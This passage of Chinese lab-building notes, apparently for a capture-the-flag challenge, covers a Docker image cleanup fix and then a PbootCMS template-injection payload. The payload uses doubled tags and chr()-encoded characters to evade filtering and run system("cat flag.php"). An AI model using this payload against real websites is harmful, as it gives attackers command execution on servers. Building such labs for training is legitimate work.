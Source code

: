 **原因** ：有一些奇怪的 `bug` ，中间不能执行 `sudo docker-compose stop` ，否则就出问题。

**解决办法** ：完全删掉镜像，重新执行命令即可。[参考链接](https://blog.csdn.net/footbridge/article/details/123053052)

```Sh
##查看全部镜像
sudo docker images

##删除镜像
sudo docker rmi b3843aae40f8( IMAGE ID ) -f

##删除容器
sudo docker rm xxx
```

![2](img/run_101.png)

### （三）为漏洞二设计 flag 时出现绕过失败的情况

```shell
{pbootpbootpboot:if:if:if((chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b)))}!!!{/pbootpbootpboot:if:if:if}
```
